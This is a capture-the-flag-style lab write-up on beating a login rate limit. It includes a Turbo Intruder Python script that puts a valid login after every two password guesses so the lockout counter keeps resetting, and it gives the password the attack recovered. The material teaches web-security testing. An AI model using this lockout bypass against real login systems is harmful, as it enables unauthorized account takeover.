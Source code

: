 Even if we provide the `X-Forwarded-For` header with a different IP Address in each request, we get the same message.

By sending a couple of failed requests we can easily detect that three false requests are permitted before blocking the IP address for one minute.

However, if we log in to our account a third time, the failed login attempts are reset. This allows us to fuzz both the username and password, but every three attempts, we must provide valid credentials. This process can be somewhat inconvenient using Burp's basic functionality, which is why we can leverage the Turbo Intruder extension.

Turbo Intruder allows us to write Python scripts to customize and optimize the fuzzing process.

Send the request by right clicking and selecting the "Send to turbo intruder"

![alt](lab31.png)

Then configure the positions to fuzz by adding `%s` to the request.

![alt](lab32.png)

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=1,
        requestsPerConnection=100,
        pipeline=False
    )
    
    it = 0                
    for word2 in open('/home/kali/Desktop/htb/pass_burp.txt'):
        word2 = word2.strip()  # Remove any trailing whitespace/newlines
        if it < 2: 
            engine.queue(target.req, ["carlos", word2])
            it += 1
        else:
            engine.queue(target.req, ["wiener", 'peter'])
            it = 0  # Reset the counter after every 3rd iteration

def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

Notice that concurrentConnections=1 is set to ensure each request is sent sequentially, waiting for a response before proceeding to the next. Using multiple connections increases the likelihood of requests being processed out of order, which could lead to the server blocking the IP address.

The attack was successful, the password is `love`.

___

### Lab: Username enumeration via account lock
